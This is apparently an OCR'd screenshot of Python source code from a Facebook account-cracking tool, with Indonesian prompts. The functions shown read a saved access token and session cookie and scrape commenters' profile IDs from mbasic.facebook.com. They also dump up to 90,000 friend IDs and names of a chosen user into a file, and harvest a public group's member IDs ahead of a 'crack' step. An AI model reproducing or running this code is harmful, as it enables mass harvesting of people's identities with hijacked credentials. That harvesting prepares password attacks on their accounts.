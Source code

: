  def get_komen(url,cokies): 
         data = parser(ses.get(url,cookies={"cookie": cokies}).text, "html.parser") 
         for isi in data.find_all("h3"): 
                 for ids in isi.find_all("a",href=True): 
                         if "profile.php" in ids.get("href"):id = ids.get("href").split('=')[1].replace("&refid","") 
                         else:id = re.findall("/(.*?)?__",ids["href"])[0]. replace("?refid=52&","").split('?')[0] 
                         nama = ids.text 
                         if id+"|"+nama in dump:pass 
                         else:dump.append(id+"|"+nama) 
                         print('\r [+] Mengumpulkan %s Id'%(len(id)),end='') 
         for z in data.find_all("a",href=True): 
                 if "Lihat komentar lainnya…" in z.text or "Lihat komentar sebelumnya…'" in z.text: 
                         try:get_komen("https://mbasic.facebook.com"+z.get["href"],cokies) 
                         except:pass 
  
 #-----------------[ DUMP ID ]-----------------#  
 def dumpid(): 
         try: 
                 token = open('.token.txt','r').read() 
                 cookie = open('.cok.txt','r').read() 
                 os.mkdir('/sdcard/DUMP-FILE') 
         except:pass 
         try: 
                 barelang = input(f" [+] Masukan Id  : ") 
                 batuampar = input(f" [+] Nama File Dump  : ") 
                 gajahmada  = ('/sdcard/DUMP-FILE/' + batuampar + '.txt').replace(' ', '_') 
                 xxx = open(gajahmada, 'w') 
                 coki = {"cookie":cookie} 
                 smpn20 = requests.get('https://graph.facebook.com/%s?fields=friends.limit(90000)&access_token=%s'%(barelang,token),cookies=coki).json() 
                 for sekupang in smpn20['friends']['data']: 
                         id.append(sekupang['id']+'|'+sekupang['name']) 
                         xxx.write(sekupang['id']+'|'+sekupang['name']+ '\n') 
                         print('\r [+] Mengumpulkan %s Id'%(len(id)),end='') 
                         time.sleep(0.0050) 
                 print(f"\n [+] Berhasil Dump Id Dari Publik") 
                 print(f" [+] Salin Output File + [ %s ]"%(gajahmada)) 
                 exit() 
         except (KeyError,IOError): 
                 os.remove(gajahmada) 
                 print(f" [+] Gagal Dump Id, Kemungkinan Id Tidak Ada") 
                 exit() 
 #-----------------[ CRACK GRUP ]-----------------#  
 def crack_group(): 
         try: 
                 token = open('.token.txt','r').read() 
                 cokies = open('.cok.txt','r').read() 
         except IOError: 
                 print(' [+] Cookies Kadaluarsa ') 
                 time.sleep(5) 
                 login() 
         cetak(nel(' Pastikan Idz Grup Bersifat Publik , Mohon Bersabar Dump Id Grup Sangat Lambat',width=90,style=f"bold white")) 
         url = input(f' [+] Id Group : ') 
         kocak("https://mbasic.facebook.com/groups/"+url,cokies) 
         print("\r") 
         setting() 
  